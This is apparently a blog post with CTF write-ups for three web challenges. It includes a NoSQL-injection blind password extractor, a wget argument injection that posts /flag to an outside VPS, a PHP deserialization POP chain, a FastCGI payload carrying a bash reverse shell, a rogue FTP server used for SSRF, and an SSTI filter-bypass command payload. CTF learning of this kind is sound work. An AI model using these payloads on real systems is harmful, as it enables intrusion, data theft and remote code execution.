








Check IN
得到题目源码source.zip，找到其中的go文件，打开代码审计
package main
import (
"fmt"
"io"
"time"
"bytes"
"regexp"
"os/exec"
"plugin"
"gopkg.in/mgo.v2"
"gopkg.in/mgo.v2/bson"
"github.com/gin-contrib/sessions"
"github.com/gin-gonic/gin"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-contrib/multitemplate"
"net/http"
)
type Url struct {
Url string `json:"url" binding:"required"`
}
type User struct {
Username string
Password string
}
const MOGODB_URI = "127.0.0.1:27017"
func MiddleWare() gin.HandlerFunc {
return func(c *gin.Context) {
session := sessions.Default(c)
if session.Get("username") == nil || session.Get("password") != os.Getenv("ADMIN_PASS") {
c.Header("Content-Type", "text/html; charset=utf-8")
c.String(200, "<script>alert('You are not admin!');window.location.href='/login'</script>")
return
}
c.Next()
}
}
func loginController(c *gin.Context) {
session := sessions.Default(c)
if session.Get("username") != nil {
c.Redirect(http.StatusFound, "/home")
return
}
username := c.PostForm("username")
password := c.PostForm("password")
if username == "" || password == "" {
c.Header("Content-Type", "text/html; charset=utf-8")
c.String(200, "<script>alert('The username or password is empty');window.location.href='/login'</script>")
return
}
conn, err := mgo.Dial(MOGODB_URI)
if err != nil {
panic(err)
}
defer conn.Close()
conn.SetMode(mgo.Monotonic, true)
db_table := conn.DB("ctf").C("users")
result := User{}
err = db_table.Find(bson.M{"$where":"function() {if(this.username == '"+username+"' && this.password == '"+password+"') {return true;}}"}).One(&result)
if result.Username == "" {
c.Header("Content-Type", "text/html; charset=utf-8")
c.String(200, "<script>alert('Login Failed!');window.location.href='/login'</script>")
return
}
if username == result.Username || password == result.Password {
session.Set("username", username)
session.Set("password", password)
session.Save()
c.Redirect(http.StatusFound, "/home")
return
} else {
c.Header("Content-Type", "text/html; charset=utf-8")
c.String(200, "<script>alert('Pretend you logged in successfully');window.location.href='/login'</script>")
return
}
}
func proxyController(c *gin.Context) {
var url Url
if err := c.ShouldBindJSON(&url); err != nil {
c.JSON(500, gin.H{"msg": err})
return
}
re := regexp.MustCompile("127.0.0.1|0.0.0.0|06433|0x|0177|localhost|ffff")
if re.MatchString(url.Url) {
c.JSON(403, gin.H{"msg": "Url Forbidden"})
return
}
client := &http.Client{Timeout: 2 * time.Second}
resp, err := client.Get(url.Url)
if err != nil {
c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
return
}
defer resp.Body.Close()
var buffer [512]byte
result := bytes.NewBuffer(nil)
for {
n, err := resp.Body.Read(buffer[0:])
result.Write(buffer[0:n])
if err != nil && err == io.EOF {
break
} else if err != nil {
c.JSON(http.StatusInternalServerError, gin.H{"error": err.Error()})
return
}
}
c.JSON(http.StatusOK, gin.H{"data": result.String()})
}
func getController(c *gin.Context) {
cmd := exec.Command("/bin/wget", c.QueryArray("argv")[1:]...)
err := cmd.Run()
if err != nil {
fmt.Println("error: ", err)
}
c.String(http.StatusOK, "Nothing")
}
func createMyRender() multitemplate.Renderer {
r := multitemplate.NewRenderer()
r.AddFromFiles("login", "templates/layouts/base.tmpl", "templates/layouts/login.tmpl")
r.AddFromFiles("home", "templates/layouts/home.tmpl", "templates/layouts/home.tmpl")
return r
}
func main() {
router := gin.Default()
router.Static("/static", "./static")
p, err := plugin.Open("sess_init.so")
if err != nil {
panic(err)
}
f, err := p.Lookup("Sessinit")
if err != nil {
panic(err)
}
key := f.(func() string)()
storage := cookie.NewStore([]byte(key))
router.Use(sessions.Sessions("mysession", storage))
router.HTMLRender = createMyRender()
router.MaxMultipartMemory = 8 << 20
router.GET("/", func(c *gin.Context) {
session := sessions.Default(c)
if session.Get("username") != nil {
c.Redirect(http.StatusFound, "/home")
return
} else {
c.Redirect(http.StatusFound, "/login")
return
}
})
router.GET("/login", func(c *gin.Context) {
session := sessions.Default(c)
if session.Get("username") != nil {
c.Redirect(http.StatusFound, "/home")
return
}
c.HTML(200, "login", gin.H{
"title": "CheckIn",
})
})
router.GET("/home", MiddleWare(), func(c *gin.Context) {
c.HTML(200, "home", gin.H{
"title": "CheckIn",
})
})
router.POST("/proxy", MiddleWare(), proxyController)
router.GET("/wget", getController)
router.POST("/login", loginController)
_ = router.Run("0.0.0.0:8080") // listen and serve on 0.0.0.0:8080
}发现其中的login路由存在nosql注入，使用nosql测试代码
'||1) {return true;}})//&password=test
返回了
Pretend you logged in successfully提示符，说明payload正确
nosql盲注
import time
import request
url = "http://9a0f103a-6622-4d98-a7d3-f52c920bb2e4.node4.buuoj.cn:81/login"
# strings = string.printable
strings = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
session = requests.session()
result = ''
data = {
"username": "'||this.password[{x}] == {y}) {return true;}})//",
"password": "test"
}
for x in range(0, 100):
for y in strings:
data['username'] = "'||this.password[" + str(x) + "] == '"+ y +"') {return true;}})//"
#print(data)
respond = session.post(url, data=data)
if "Pretend" in respond.text:
result += y
print(result)
break
time.sleep(0.06)
# print(strings)得到了密码
54a83850073b0f4c6862d5a1d48ea84f
username=admin&password=54a83850073b0f4c6862d5a1d48ea84f成功登录
同样可以发现在wget路由中有一个wget请求，我们可以通过wget命令进行数据外带
/wget?argv=aaa&argv=--post-file=/flag&argv=yourvpsip:port
就可以在你自己的vps上面看见回显了

eaaasyphp
打开题目有源码
<?php
class Check {
public static $str1 = false;
public static $str2 = false;
}
class Esle {
public function __wakeup()
{
Check::$str1 = true;
}
}
class Hint {
public function __wakeup(){
$this->hint = "no hint";
}
public function __destruct(){
if(!$this->hint){
$this->hint = "phpinfo";
($this->hint)();
}
}
}
class Bunny {
public function __toString()
{
if (Check::$str2) {
if(!$this->data){
$this->data = $_REQUEST['data'];
}
file_put_contents($this->filename, $this->data);
} else {
throw new Error("Error");
}
}
}
class Welcome {
public function __invoke()
{
Check::$str2 = true;
return "Welcome" . $this->username;
}
}
class Bypass {
public function __destruct()
{
if (Check::$str1) {
($this->str4)();
} else {
throw new Error("Error");
}
}
}
if (isset($_GET['code'])) {
unserialize($_GET['code']);
} else {
highlight_file(__FILE__);
}很明显是一个pop链的构造
进行代码审计
我们可以先利用Hint类来查看phpinfo中有没有可用信息
POC:
class Hint{
}
echo serialize(new Hint());
//O:4:"Hint":0:{}但是不能读取phpinfo页面成功
因为__wakeup的优先级比__destruct的优先级高，我们需要绕过__wakeup这个魔术方法
PHP :: Bug #81151 :: bypass __wakeup详情看这个
我们使用C绕过__wakeup方法
payload:
C:4:"Hint":0:{}
得到phpinfo()页面

同时我们也可以很明显的发现到FPM/FastCGI开启
我们就可以利用这个通过file_put_contents和ftp配合打内网
我们先构造攻击fastcgi的payload,为默认的9000端口

%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH104%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00h%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/xxxx/8000%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00在vps上搭建恶意ftp服务
# evil_ftp.py
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0', 21))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
开启nc监听端口
构造pop链触发file_put_contents
<?php
class Esle{
}
class Bypass{
public $str4;
}
class Welcome{
public $username;
}
class Bunny{
public $filename = "ftp://aaa@120.xxxx/123";
}
$b = new Bypass();
$w = new Welcome();
$b1 = new Bunny();
$w->username = $b1;
$b->str4 = $w;
echo urlencode(serialize(array(new Esle(),$b)));
//a%3A2%3A%7Bi%3A0%3BO%3A4%3A%22Esle%22%3A0%3A%7B%7Di%3A1%3BO%3A6%3A%22Bypass%22%3A1%3A%7Bs%3A4%3A%22str4%22%3BO%3A7%3A%22Welcome%22%3A1%3A%7Bs%3A8%3A%22username%22%3BO%3A5%3A%22Bunny%22%3A1%3A%7Bs%3A8%3A%22filename%22%3Bs%3A31%3A%22ftp%3A%2F%2Faaa%40120.xxxxx%3A21%2F123%22%3B%7D%7D%7D%7D
成功反弹shell

MagicMail
打开题目，可以设置邮件的ip地址和port
在vps搭建smtp服务
python3 -m smtpd -c DebuggingServer -n 0.0.0.0:8000
通过题目测试SSTI

可以在vps上回显

base64解码之后得到

表明SSTI成功
但是SSTI被过滤了大部分字符
'class', 'mro', 'base', 'request', 'session', '+', 'add', 'chr', 'u', '.', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', ' ', '_'比较全的SSTI绕过
构建payload
{{""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(137)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("popen")("ls\x20/")|attr("read")()}}


- Post link: https://roboterh.github.io/2021/11/25/%E9%99%87%E5%8E%9F%E6%88%98%E5%BD%B9/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.